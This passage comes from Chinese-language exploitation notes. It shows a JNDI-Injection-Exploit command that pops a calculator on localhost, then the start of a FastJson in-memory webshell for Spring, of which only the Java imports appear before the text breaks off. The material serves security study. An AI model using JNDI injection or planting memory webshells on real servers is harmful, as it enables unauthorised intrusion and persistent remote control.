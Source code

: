 可以利用

![image-20231226165553175](image-20231226165553175.png)

![image-20231226165528076](image-20231226165528076.png)

下面直接尝试直接打入内存马和FastJson利用相同。

下面使用JNDI工具利用

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "calc" -A 127.0.0.1
```

















# 附





## FastJson打入内存马

```java
import org.springframework.beans.factory.InitializingBean;
import org.springframework.util.Assert;
import org.springframework.web.bind.annotation.RequestMethod;
import org.springframework.web.context.WebApplicationContext;
import org.springframework.web.context.request.RequestContextHolder;
import org.springframework.web.context.request.ServletRequestAttributes;
import org.springframework.web.servlet.mvc.condition.PatternsRequestCondition;
import org.springframework.web.servlet.mvc.condition.RequestMethodsRequestCondition;
import org.springframework.web.servlet.mvc.method.RequestMappingInfo;
import org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping;
import javax.crypto.BadPaddingException;
import javax.crypto.Cipher;
import javax.crypto.IllegalBlockSizeException;
import javax.crypto.NoSuchPaddingException;
import javax.crypto.spec.SecretKeySpec;
```